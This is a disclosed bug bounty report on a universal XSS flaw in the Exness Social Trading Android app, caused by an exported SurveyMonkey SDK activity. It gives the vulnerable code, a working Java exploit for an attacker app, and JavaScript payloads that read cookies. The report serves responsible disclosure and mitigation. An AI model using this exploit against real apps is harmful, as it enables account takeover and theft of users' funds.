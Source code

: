 # Improper Implementation of SDK Allows Universal XSS in Webview Leading to Account Takeover

## Report Details
- **Report ID**: 1455987
- **URL**: https://hackerone.com/reports/1455987
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-01-20T23:38:30.545Z
- **Disclosed**: 2022-04-13T15:36:59.294Z

## Reporter
- **Username**: holyfield
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: exness

## Vulnerability Information
## Affected App: Social Trading (com.exness.investments)
## App Version: - 2.45.8-release (latest on PlayStore)

# Summary:
The **SurveyMonkey** SDK, used to collect surveys from users for analytic and informative purposes, was implemented in an insecure manner in . Particularly, the `SMFeedbackActivity` was exported, allowing any app installed on user's device to launch it. In the implementation details stated on Github (see References), it is expected that the SDK would be initialized programmatically and not via an exported activity. Nevertheless, this in itself does not make the app vulnerable.

The vulnerability surfaces because the exported activity, `SMFeedbackActivity`, is a Fragment which loads data into a WebView by supplying externally controlled `Intent Extras` into the `loadDataWithBaseURL()` method of the WebView. This method accepts a `baseURL` and `HTML` data as parameters and uses their values to load the WebView, with JavaScript enabled. The function of this method is that when a `baseURL` is supplied, the WebView treats the HTML content in the `HTML` data as though it's a content that was loaded when the `baseURL` was visited. For example, supplying `https://my.exness.com` as `baseURL` and `<script>document.write(document.cookies)</script>` would write out the cookies of `my.exness.com` stored in the app's internal storage. The same is applicable for all cookies stored for every other site visited through the various WebViews in the Social Trading app because all cookies are stored in a single file.

Therefore, a malicious app can start up the vulnerable activity--which is actually a fragment, being an extension of the `Fragment` super class--and supply the intent with malicious `Intent Extras` containing any website as well as JavaScript payload to steal user's Cookies or execute OSRF (On-Site Request Forgery) attacks.

Here's the vulnerable piece of code:
**AndroidManifest.xml**
**Desc:** The exported activity.

```xml
<activity android:name="com.surveymonkey.surveymonkeyandroidsdk.SMFeedbackActivity" ...>
  <intent-filter>
      <action android:name="android.intent.action.MAIN"/>
  </intent-filter>
</activity>
```

**com.surveymonkey.surveymonkeyandroidsdk.SMFeedbackActivity**
**Desc:** The last line `onCreate()` method launches the Fragment with attacker-supplied Intent Extras.

```java
@Override // androidx.fragment.app.FragmentActivity
public void onCreate(android.os.Bundle bundle) {
  super.onCreate(bundle);
  android.content.Intent intent = getIntent();
  this.f11369c = intent.getStringExtra("smSPageHTML");
  this.f11370d = intent.getStringExtra("smSPageURL");
  if (this.f11369c == null) {
    ...
  } else if (bundle == null) {
    ...
    android.os.Bundle bundle2 = new android.os.Bundle();
    bundle2.putString("smSPageURL", str);
    bundle2.putString("smSPageHTML", str2);
    bundle2.putBoolean("smHasLoadedSPageHTML", true);
    sMFeedbackFragment.setArguments(bundle2);
    beginTransaction.add(16908290, sMFeedbackFragment, com.surveymonkey.surveymonkeyandroidsdk.SMFeedbackFragment.f11372p).commit();
  }
}
```

**com.surveymonkey.surveymonkeyandroidsdk.SMFeedbackFragment**
**Desc:** After some bypassable validations of the URL, the attacker-data is loaded in WebView in `loadDataWithBaseURL()` below
```java
public class SMFeedbackFragment extends androidx.fragment.app.Fragment implements p000.AbstractC8582mU{
	...

	public final void m4704b() {
    if (getView() != null) {
      this.f11382n = android.app.ProgressDialog.show(getActivity(), null, getString(com.surveymonkey.surveymonkeyandroidsdk.R$string.sm_loading_status));
      this.f11376g = true;
      this.f11373c = (android.webkit.WebView) getView().findViewById(com.surveymonkey.surveymonkeyandroidsdk.R$id.sm_feedback_webview);
      this.f11373c.getSettings().setJavaScriptEnabled(true);
      this.f11373c.setWebViewClient(new com.surveymonkey.surveymonkeyandroidsdk.SMFeedbackFragment.C7006c(null));
      this.f11373c.loadDataWithBaseURL(this.smSPageURL, this.smSPageHTML, null, "UTF-8", null);
    }
  }
  ...
}
```

# Steps to Reproduce:

  1. Install the latest version of Social Trading (com.exness.investments) from Play Store.
  2. Install the attacker App attached to this report
  3. Launch the attacker's app
  4. The Exness Trading App will open up. After a few seconds, the vulnerable Fragment will be launched, loading `my.exness.asia`.
  5. After a few more seconds, the Fragment will be relaunched with attacker's payload to show the user's cookies.
  6. You'll see the user's cookies exposed, and if the user had also logged to any other Website, e.g., through the Payments WebView, the same exploit still works.

**Exploit Code In Attacker App**
```java
Intent exnessIntent = getPackageManager().getLaunchIntentForPackage("com.exness.investments");
startActivity(exnessIntent);
final Intent intent = new Intent("android.intent.action.VIEW");
intent.putExtra("smSPageHTML", "<h1>Exploited</h1><script>location.href='/r/'</script>");
intent.putExtra("smSPageURL", "https://my.exness.asia/r/");
try {
    intent.setClassName(createPackageContext("com.exness.investments", Context.CONTEXT_IGNORE_SECURITY), "com.surveymonkey.surveymonkeyandroidsdk.SMFeedbackActivity");
} catch (PackageManager.NameNotFoundException e) {
    e.printStackTrace();
}
new Handler().postDelayed(new Runnable() {
    @Override
    public void run() {
        startActivity(intent);
    }
}, 8000);

final Intent intent2 = new Intent("android.intent.action.VIEW");
intent2.putExtra("smSPageHTML", "<h1<Exploited</h1><script>document.write(document.cookie)</script>");
intent2.putExtra("smSPageURL", "https://my.exness.asia/r/");
try {
    intent2.setClassName(createPackageContext("com.exness.investments", Context.CONTEXT_IGNORE_SECURITY), "com.surveymonkey.surveymonkeyandroidsdk.SMFeedbackActivity");
} catch (PackageManager.NameNotFoundException e) {
    e.printStackTrace();
}

new Handler().postDelayed(new Runnable() {
    @Override
    public void run() {
        startActivity(intent2);
    }
}, 20000);
```

If a user had logged in to any site using any WebView controlled by the Exness app, as would be seen below, the user's account can be hijacked through theft of the user's `JWT` token.

Here's a short video PoC

█████████

## Impact

* Theft of user cookies for all sites which would lead to account takeovers
* Attacker would compromise victim's credentials and data
* Attacker would see victim's open and closed positions and also make unfavorable modifications
* Attacker would be able to change victim's strategies and portfolios, leading to losses
* Attacker could make withdrawals from victim's account, especially if 2FA through phone number is enabled in the Exness app and the Attaking

## Mitigation
The exported activity should not be exported. Adding `exported="false"` to the activity would ensure a third-party app would not be able to launch it.


## Supporting Material/References:

  * Attacker App - ██████████
  * Video PoC - █████
  * [Implementation details of Survey Monkey Android SDK](https://github.com/SurveyMonkey/surveymonkey-android-sdk/)

## Attachments
No attachments
